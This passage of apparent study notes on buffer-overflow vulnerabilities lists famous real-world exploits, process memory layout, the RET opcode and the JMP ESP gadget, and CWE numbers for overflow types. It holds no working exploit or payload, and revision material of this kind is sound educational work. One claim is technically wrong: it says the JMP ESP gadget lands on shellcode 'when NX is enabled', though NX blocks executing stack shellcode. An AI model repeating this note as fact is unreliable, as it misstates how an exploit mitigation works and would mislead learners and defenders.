- **Real-world exploits to mention in answers:** Morris Worm (1988), Code Red (2001), Slammer (2003), Heartbleed (2014 — adjacent memory leak, related family), BlueKeep (2019), CVE-2021-3156 (`sudoedit` heap overflow).
- **Memory regions in a process (low to high):** Text → Data → BSS → Heap (grows up) → (unmapped) → Stack (grows down) → Kernel.
- **Two x86 control-flow instructions to remember:** `RET` (opcode `0xC3`, pops EIP) and `JMP ESP` (gadget used to land on shellcode when NX is enabled).
- **CWE / CVE classification awareness:** Buffer overflow = CWE-120; Stack overflow = CWE-121; Heap overflow = CWE-122; Format string = CWE-134.
<!-- SECTION_5_END -->
